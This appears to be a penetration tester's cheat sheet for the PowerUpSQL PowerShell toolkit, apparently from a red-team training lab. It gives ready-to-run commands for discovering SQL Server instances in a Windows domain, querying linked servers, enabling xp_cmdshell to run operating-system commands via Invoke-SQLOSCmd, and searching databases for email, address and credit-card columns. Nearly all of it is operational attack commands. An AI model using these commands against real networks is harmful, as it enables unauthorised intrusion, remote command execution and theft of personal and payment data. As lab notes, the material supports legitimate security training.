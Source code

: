 [GitHub Link](https://github.com/NetSPI/PowerUpSQL)

## Import

---

```
powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1
```


## Notes

---

If there are multiple SQL Servers available, you can chain these commands together to automate the data collection.

```
powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
```


## Enumerate SQL Instance Domain

---

`Get-SQLInstanceDomain` works by searching for SPNs that begin with _MSSQL*_.

```
powershell Get-SQLInstanceDomain
powershell Get-SQLInstanceBroadcast
powershell Get-SQLInstanceScanUDP
```

You may also search the domain for groups that sound like they may have access to database instances (for example, a "SQL Admins" group). [[ADSearch#Get All Domain Groups That Ends with "admins"]]


## Get-SQLConnectionTest

---

Tests the connection to an SQL server instance.

```
powershell Get-SQLConnectionTest -Instance "sql-2.dev.cyberbotic.io,1433" | fl
```


## Get-SQLServerInfo

---

Gathers even more information about an SQL server instance.

```
powershell Get-SQLServerInfo -Instance "sql-2.dev.cyberbotic.io,1433"
```


## Get-SQLQuery

---

Sends a query to the SQL server instance.

```
powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select @@servername"
```

### Search Keywords in SQL Links

Searches for a keyword in SQL links with a query.

```
powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select * from information_schema.tables')"
```


## Invoke-SQLOSCmd

---

```
powershell Invoke-SQLOSCmd -Instance "sql-2.dev.cyberbotic.io,1433" -Command "whoami" -RawResults
```

It will automatically attempt to enable xp_cmdshell if it's not already, execute the given command, and then disable it again.


## Get-SQLServerLinkCrawl

---

Crawls all available SQL links.

```
powershell Get-SQLServerLinkCrawl -Instance "sql-2.dev.cyberbotic.io,1433"
```


## Get-SQLColumnSampleDataThreaded

---

It can search one or more instances for databases that contain particular keywords in the column names.

```
powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "email,address,credit,card" -SampleSize 5 | select instance, database, column, sample | ft -autosize
```
